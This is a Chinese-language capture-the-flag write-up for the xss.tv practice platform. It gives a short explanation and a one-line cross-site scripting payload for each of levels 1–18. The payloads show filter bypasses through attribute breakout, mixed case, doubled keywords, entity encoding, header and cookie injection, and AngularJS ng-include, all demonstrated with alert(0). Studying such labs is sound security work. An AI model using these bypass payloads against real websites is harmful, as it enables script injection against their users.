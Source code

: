 ```yaml
---
title: "xss.tv Writeup"
date: 2018-08-04T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['ctf','xss']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



[test.xss.tv](http://test.xss.tv/)

最短 xss 平台的题目, 一共20关.

19关和20关没做, 都是 xsf, 之前审计过 flash 文件也没啥好印象.

这个相对于之前的 xss challenges 真是一点 Hint 都没有, 不过可以显示出 payload 的长度.

<!--more-->

## level 1

最简单的.

`<svg onload=alert(0)>`

## level 2

输出在 value 内, 闭合标签后再插入 payload.

也可以用 on 事件, 不过这是下一题的考点.

`"><img src=0 onerror=alert(0)>`

## level 3

单引号闭合.

`1' onmouseover='alert(0)`

## level 4

双引号闭合.

`" onmouseover="alert(0)`

## level 5

on 事件被转义成 `o_n`, script 标签也被转义成 `scr_ipt`.

换一个姿势.

`"><a href=javascript:alert(0)>`

## level 6

on href src 都被加上了下划线.

大小写绕过.

`<a HrEf="javascript:alert(0)">click</a>`

## level 7

这题没有转义, 只是把 on href src script 替换成空, 但只替换了一次.

`"><a hrhrefef="javascscriptript:alert(0)">click</a>`

## level 8

关键字都被加上了下划线, 用 html 的自解码机制就可以绕过.

`javasc&#114;ipt:alert(0)`

## level 9

keyword 中没有 `http://` 就显示为非法链接.

其它的都和上题一样.

`javasc&#114;ipt:alert(&#34;http://&#34;)`

## level 10

查看源代码发现有三个隐藏参数, `t_link t_history t_sort`, 其中只有 `t_sort` 可控.

由于标签是 hidden 的就不能触发 on 事件, 所以要改回 text 状态.

`1" type="text" onmouseover="alert(0)`

## level 11

隐藏参数多了个 `t_referer`, 抓包修改 referer 即可.

`1" type="text" onmouseover="alert(0)`

## level 12

抓包修改 user-agent.

`1" type="text" onmouseover="alert(0)`

## level 13

打开后发现多了个 cookie `user=call me maybe`, 直接修改 cookie 重新访问页面.

`1" type="text" onmouseover="alert(0)`

## level 14

这题做的很迷, 打开后直接就是 401 认证, 乱输几个 payload 也没屌用.

在网上看了 writeup 后才发现是图片 exif 信息的 xss.

估计网站已经关闭了, 就直接跳过吧.

## level 15

查看源代码发现 ng-include 这个参数, 百度一会发现这是 angularjs 的语句, 好像和 php 的文件包含差不多.

src 直接包含第一关的内容传参 keyword 为 payload, 并没啥屌用, 后来才发现是 script 标签包含 angularjs 所在的网站被墙了, 恰好又是我大谷歌的地址.

包含的时候要加上单引号.

`'level1.php?keyword=<svg onload=alert(0)>'`

## level 16

反斜杠空格什么的都被替换成了 `&nbsp;`,  两个换行符就可以干掉它.

`<svg%0a%0aonload=alert(0)>`

## level 17

写的是 xsf, 其实只要在 arg02 后面加上 payload 就行了.

`1 onmouseover=alert(0)`

## level 18

同 level 17.

`1 onmouseover=alert(0)`